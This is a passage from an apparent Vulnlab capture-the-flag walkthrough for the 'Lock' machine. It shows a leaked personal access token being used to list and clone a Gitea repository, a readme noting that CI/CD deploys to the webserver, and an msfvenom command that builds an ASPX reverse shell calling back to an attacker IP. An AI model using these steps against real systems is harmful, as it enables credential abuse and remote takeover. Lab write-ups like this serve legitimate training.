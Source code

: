 ```python
    except Exception as e:
        print(f"Error: {e}")

if __name__ == "__main__":
    main()
```

By running the version of the script from the `initial commit`, containing the `PERSONAL_ACCESS_TOKEN`, I was able to find another repository called `website`.

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Lock/files]
└─$ python3 repos.py http://10.10.87.100:3000
Repositories:
- ellen.freeman/dev-scripts
- ellen.freeman/website
```

## Foothold

I cloned the repository to see what was inside.

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Lock/files]
└─$ git clone http://ellen.freeman:43ce39bb0bd6bc489284f2905f033ca467a6362f@10.10.87.100:3000/ellen.freeman/website.git
Cloning into 'website'...
remote: Enumerating objects: 165, done.
remote: Counting objects: 100% (165/165), done.
remote: Compressing objects: 100% (128/128), done.
remote: Total 165 (delta 35), reused 153 (delta 31), pack-reused 0
Receiving objects: 100% (165/165), 7.16 MiB | 1.78 MiB/s, done.
Resolving deltas: 100% (35/35), done.
Updating files: 100% (126/126), done.
```

The `readme.md` pointed out that all submitted files would be automatically deployed on the `webserver` via `Continuous Integration and Continuous Delivery (CI/CD)`.

```c
┌──(kali㉿kali)-[/media/…/Machines/Lock/files/website]
└─$ cat readme.md 
# New Project Website

CI/CD integration is now active - changes to the repository will automatically be deployed to the webserver
```

For the foothold I generated an `aspx reverse shell` using `msfvenom`.

```c
┌──(kali㉿kali)-[/media/…/Machines/Lock/files/website]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.0.2 LPORT=8443 -f aspx -o shell.aspx
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3396 bytes
Saved as: shell.aspx
```
